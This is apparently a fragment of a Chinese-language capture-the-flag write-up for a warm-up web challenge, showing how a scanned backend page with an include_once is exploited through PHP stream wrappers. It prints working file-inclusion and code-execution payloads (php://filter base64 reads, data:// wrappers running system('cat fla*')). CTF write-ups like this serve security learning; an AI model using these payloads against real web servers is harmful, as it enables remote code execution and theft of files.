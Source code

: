 得到flag

------

### 签到题

扫面后台

![image-20240124130114762](照片/image-20240124130114762.png)

打开第一个

![image-20240124130125383](照片/image-20240124130125383.png)

发现代码

```
include_once
```

会直接执行命令，可以构造一下php伪协议

关于php为协议https://blog.csdn.net/cosmoslin/article/details/120695429

```
常用的几个
php://filter/read=convert.base64-encode/resource=index.php
php://filter/resource=index.php


适用于include（$参数）

data:text/plain,<?=system("tac fla*");?>

data伪协议的格式:

data://text/plain;base64,

data:资源类型(MIME类型);编码,内容


    
1.c=data://text/plain,<?php system("cat fla*");?>
读flag
```